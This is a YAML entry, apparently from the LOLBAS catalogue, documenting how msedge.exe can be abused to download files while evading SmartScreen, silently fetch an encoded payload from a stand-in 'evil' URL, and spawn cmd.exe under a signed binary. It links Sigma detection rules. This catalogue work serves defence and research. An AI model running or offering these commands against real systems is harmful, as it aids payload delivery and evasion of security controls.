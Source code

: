 ```yaml
---
Name: Msedge.exe
Description: Microsoft Edge browser
Author: mr.d0x
Created: 2022-01-20
Commands:
  - Command: msedge.exe https://example.com/file.exe.txt
    Description: Edge will launch and download the file. A harmless file extension (e.g. .txt, .zip) should be appended to avoid SmartScreen.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: msedge.exe --headless --enable-logging --disable-gpu --dump-dom "http://example.com/evil.b64.html" > out.b64
    Description: Edge will silently download the file. File extension should be .html and binaries should be encoded.
    Usecase: Download file from the internet
    Category: Download
    Privileges: User
    MitreID: T1105
    OperatingSystem: Windows 10, Windows 11
  - Command: msedge.exe --disable-gpu-sandbox --gpu-launcher="C:\Windows\system32\cmd.exe /c ping google.com &&"
    Description: Edge spawns cmd.exe as a child process of msedge.exe and executes the ping command
    Usecase: Executes a process under a trusted Microsoft signed binary
    Category: Execute
    Privileges: User
    MitreID: T1218
    OperatingSystem: Windows 10, Windows 11
Full_Path:
  - Path: c:\Program Files\Microsoft\Edge\Application\msedge.exe
  - Path: c:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b02e3b698afbaae143ac4fb36236eb0b41122ed7/rules/windows/process_creation/proc_creation_win_browsers_msedge_arbitrary_download.yml
  - Sigma: https://github.com/SigmaHQ/sigma/blob/b02e3b698afbaae143ac4fb36236eb0b41122ed7/rules/windows/process_creation/proc_creation_win_browsers_chromium_headless_file_download.yml
Resources:
  - Link: https://twitter.com/mrd0x/status/1478116126005641220
  - Link: https://twitter.com/mrd0x/status/1478234484881436672
Acknowledgement:
  - Person: mr.d0x
    Handle: '@mrd0x'
---
```

